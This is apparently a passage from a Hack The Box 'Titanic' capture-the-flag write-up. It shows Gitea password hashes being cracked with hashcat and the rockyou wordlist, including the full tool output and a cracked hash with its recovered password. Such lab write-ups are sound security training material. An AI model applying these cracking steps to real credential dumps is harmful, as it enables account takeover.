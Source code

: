 ```
```

I remove all the hashes but the administrator and developer, I think the other are from other users playing on the machine that created an account (my user test01 is not there, possibly because the machine was reseted)

Credit to 0xdf for the commands!

Let's do the hashcat. I use the `--user` flag to ignore the usernames on the file.
```
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ hashcat gitea.hashes /usr/share/wordlists/rockyou.txt.gz --user
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 9 9900X 12-Core Processor, 11465/22995 MB (4096 MB allocatable), 12MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 3 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```
